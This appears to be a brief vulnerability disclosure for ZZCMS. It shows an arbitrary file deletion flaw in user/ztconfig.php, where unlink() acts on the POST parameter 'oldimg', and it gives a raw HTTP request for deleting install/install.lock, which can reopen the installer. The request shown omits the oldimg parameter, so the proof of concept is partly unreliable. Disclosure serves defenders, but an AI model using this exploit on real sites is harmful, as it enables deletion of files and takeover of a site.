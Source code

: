 

##user/ztconfig.php


Vulnerability：
![image](https://github.com/P0rZ9/ZZCMS/blob/master/5.jpg)

There is unlink($f) to delete any file by controlling the value of $f

##Control $f：
$oldbannerbg=isset($_POST["oldimg"])?$_POST["oldimg"]:'';


##Delete install/install.lock:
<pre><code>
POST /user/ztconfig.php?action=modify HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://127.0.0.1:85/user/ztconfig.php
Cookie: xxxxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

swf=1.swf&bannerheight=0&comanestyle=center&comanecolor=%23FFFFFF&daohang%5B%5D=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&daohang%5B%5D=%E6%8B%9B%E5%95%86%E4%BF%A1%E6%81%AF&tongji=&baidu_map=&Submit2=+%E6%9B%B4%E6%96%B0%E8%AE%BE%E7%BD%AE
</code></pre>
![image](https://github.com/P0rZ9/ZZCMS/blob/master/6.jpg)


##delete install/install.lock successfully
![image](https://github.com/P0rZ9/ZZCMS/blob/master/7.jpg)

